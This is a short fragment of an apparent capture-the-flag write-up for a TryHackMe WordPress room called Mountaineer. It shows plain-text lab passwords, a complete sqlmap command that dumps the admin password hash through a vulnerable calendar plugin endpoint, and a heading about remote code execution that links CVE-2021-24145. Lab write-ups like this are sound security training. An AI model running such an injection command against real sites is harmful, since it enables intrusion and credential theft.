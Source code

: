 **NEW CREDENTIAL:**

```bash
8O!Uv68eppgxFi4^
```

![image.png](image%209.png)

**OLD CREDENTIAL:**

```bash
th3_tall3st_password_in_th3_world
```

> **SQL Injection Phase**
> 

`sqlmap -u "http://mountaineer.thm/wordpress/wp-admin/admin-ajax.php?action=mec_load_single_page&time=2" -D wordpress -T wp_users -C user_pass --where "user_login='admin'" --dump --batch`

```bash
[REDACTED] - EXAMPLE
```

> **Remode Code Execution & Payload Phase**
> 

**For more information:**

[NVD - CVE-2021-24145](https://nvd.nist.gov/vuln/detail/CVE-2021-24145)
